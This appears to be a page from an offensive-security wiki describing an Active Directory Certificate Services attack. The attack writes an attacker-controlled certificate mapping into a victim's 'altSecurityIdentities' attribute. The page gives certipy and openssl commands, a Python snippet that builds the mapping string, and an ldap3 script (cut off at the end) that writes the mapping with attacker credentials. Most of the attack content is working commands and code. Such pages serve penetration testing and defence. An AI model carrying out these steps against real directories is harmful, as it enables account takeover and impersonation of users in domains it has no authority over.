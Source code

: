 Write rights to `altSecurityIdentities` can be obtained via the following [DACL](../dacl/):

- Write property `altSecurityIdentities`
- Write property `Public-Information`
- Write property (all)
- `WriteDACL`
- `WriteOwner`
- `GenericWrite`
- `GenericAll`
- Owner

For PKINIT authentication, no additional requirements are necessary. For Schannel authentication, the `CertificateMappingMethods` key must be set to `0x8` (default value).

::: tabs

=== UNIX-like

From UNIX-like systems, with [certipy](https://github.com/ly4k/Certipy), it is possible to enroll on a certificate template.

```bash
certipy req -u $TARGET@$DOMAIN -ca $CA_NAME -template $TEMPLATE -dc-ip $DC_IP
```

Then, using [certipy](https://github.com/ly4k/Certipy), we can get the certificate out of the pfx file.

```bash
certipy cert -pfx target.pfx -nokey -out "target.crt"
```

[openssl](https://github.com/openssl/openssl) can be used to extract the "Issuer" and the "Serial Number" value out of the certificate.

```bash
openssl x509 -in target.crt -noout -text
```

With the following python script (inspired from [this script](https://github.com/JonasBK/Powershell/blob/master/Get-X509IssuerSerialNumberFormat.ps1)), we can use the previously dumped values to craft a X509IssuerSerialNumber mapping string.

```python
issuer = ",".join("<TARGET_DN>".split(",")[::-1])
serial = "".join("<SERIAL_NUMBER>".split(":")[::-1])

print("X509:<I>"+issuer+"<SR>"+serial)
```

the string can then be added to `altSecurityIdentities` target's attribute with the following python script.

```python
import ldap3

server = ldap3.Server('<DC_HOST>')
victim_dn = "<TARGET_DN>"
attacker_username = "<DOMAIN>\\<ATTACKER_SAMACCOUTNNAME>"
attacker_password = "<ATTACKER_PASSWORD>"

conn = ldap3.Connection(
    server=server,
    user=attacker_username,
    password=attacker_password,
    authentication=ldap3.NTLM
)
conn.bind()

conn.modify(
    victim_dn,
    {'altSecurityIdentities':[(ldap3.MODIFY_ADD, '<X509IssuerSerialNumber>')]}
```